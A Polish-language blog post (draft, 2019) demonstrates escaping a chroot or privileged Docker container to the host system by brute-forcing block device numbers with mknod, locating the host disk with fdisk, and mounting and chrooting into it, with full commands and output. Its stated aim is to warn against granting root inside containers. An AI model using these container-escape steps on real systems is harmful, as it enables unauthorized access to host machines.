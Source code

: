 Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-01-19
:Status: draft
:slug: chroot-breaking-1


W tym poście pokażę jak mając *root* w *chroot* dostać się do systemu nadzorcy.  
Tym samym chcę pokazać, dlaczego nie należy przyznawać praw administratora użytkownikowi nawet w *chroot*.

Crash course
------------

{% youtube TQRcC2OEHn8 320 180 %}

Ponieważ *docker* (podobnie jak większość technologi kontenerowych) używa *chroot*-a, wyjście z *chroot* czy *docker* sprowadza się do tej samej metody.
Poniższa metoda wymaga posiadania konta *root* w kontenerze uruchomionego z uprawnieniami *privileged* (w przypadku *docker*)

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Analiza metody
--------------

{% youtube CVRyg4fYdq4 320 180 %}

Metoda ta wykorzystuje *chroot* do *filesystem*-u systemu głównego.
Ponieważ w *chroot* najczęściej nie mamy zamontowanego katalogu ``/dev/``, a tym samym, nie możemy zamontować *filesystem*-u nadzorcy, musimy samodzielnie utworzyć urządzenie odpowiadające dyskowi z tymże *filesystem*-em.

Urządzenia w Linuksie są specjalnymi plikami.
W kontekście urządzeń, najczęściej wyróżniamy urządzenia blokowe oraz znakowe.
Urządzenia znakowe, jak sama nazwa wskazuje, prowadzą komunikację znak po znaku, natomiast urządzenia blokowe poprzez bloki.
Najczęściej również urządzenia znakowe pozwalają jedynie na odczyt i zapis. Takimi urządzeniami mogą być mysz, klawiatura, urządzenie ``/dev/random``, pseudo-terminale.
Urządzenia blokowe najczęściej pozwalają na adresowanie oraz dowolny dostęp. Przykładem takiego urządzenia jest np: dysk twardy, cdrom.

Każdy specjalny plik reprezentujący urządzenie jest określany przez trzy parametry:

- typ: czy jest to urządzenie blokowe, czy znakowe
- major: numer główny typu urządzenia
- minor: numer pomocniczy typu urządzenia

Jądro systemu Linuks bazując na typie oraz numerach major i minor wie do którego sterownika przekierować obsługę operacji na danym urządzeniu.
Lista zdefiniowanych numerów major i minor wraz z typami znajduje się w `dokumentacji jądra Linuksa`_

Aby utworzyć specjalny plik urządzenia, należy użyć polecenia ``mknod``.
I tutaj pojawia się problem.
Ponieważ musimy znać major i minor dysku, dla którego chcemy utworzyć plik urządzenia, dlatego *odgadnięcie* tych wartości jest jedyną trudnością jaka nas czeka.
Posiłkując się dokumentacją widzimy, że urządzenia blokowe o majorze 3, to są dyski IDE, natomiast major 8 to są dyski SCSI.
Warto rozpocząć szukanie odpowiedniego dysku od tych wartości.
Jeżeli nie jest to żaden ze standardowych dysków, można w pętli utworzyć wszystkie urządzenia próbując znaleźć odpowiednie.

.. code-block:: console

    # docker run --rm -it --privileged centos /bin/bash
    # mkdir /tmp/devices
    # cd /tmp/devices/
    # for i in $(seq 1 300); do mknod device_$i b $i 0; done
    # ls -l
    brw-r--r--. 1 root root   1, 0 Feb 10 16:57 device_1
    brw-r--r--. 1 root root  10, 0 Feb 10 16:57 device_10
    brw-r--r--. 1 root root 100, 0 Feb 10 16:57 device_100
    brw-r--r--. 1 root root 101, 0 Feb 10 16:57 device_101
    brw-r--r--. 1 root root 102, 0 Feb 10 16:57 device_102
    brw-r--r--. 1 root root 103, 0 Feb 10 16:57 device_103
    brw-r--r--. 1 root root 104, 0 Feb 10 16:57 device_104
    (...)
    # fdisk  -l * 2>/dev/null
    Disk device_1: 16 MB, 16777216 bytes, 32768 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    Disk device_253: 44.0 GB, 44023414784 bytes, 85983232 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk label type: dos
    Disk identifier: 0x0009b93d
    
          Device Boot      Start         End      Blocks   Id  System
    device_253p1   *        2048    83886079    41942016   83  Linux

Widzimy, że tylko dwa urządzenia zostały rozpoznane: ``device_1`` oraz ``device_253``.
``device_1`` to ``RAM disk``, więc nas nie interesuje, natomiast drugie urządzenie wygląda jak dysk nadzorcy.
Gdyby nie udało się tutaj znaleźć interesującego nas dysku, należałoby rozszerzyć poszukiwania o numery minorów inne niż 0.
Ponieważ minor 0 oznacza cały dysk, a my musimy uzyskać dostęp do partycji, musimy utworzyć urządzenie tejże partycji.

.. code-block:: console

    # mknod device_253_1 b 253 1

Mając takie urządzenie, możemy przystąpić do standardowej procedury wykonania *chroot*, czyli zamontowanie partycji oraz wykonanie polecenia ``chroot``.

.. code-block:: console

    # mount device_253_1 /mnt/
    # chroot /mnt/ /bin/bash

Tym sposobem udało nam się dostać do systemu nadzorcy wychodząc z *chroot* w którym posiadaliśmy prawa *root*.

.. _dokumentacji jądra Linuksa: https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt
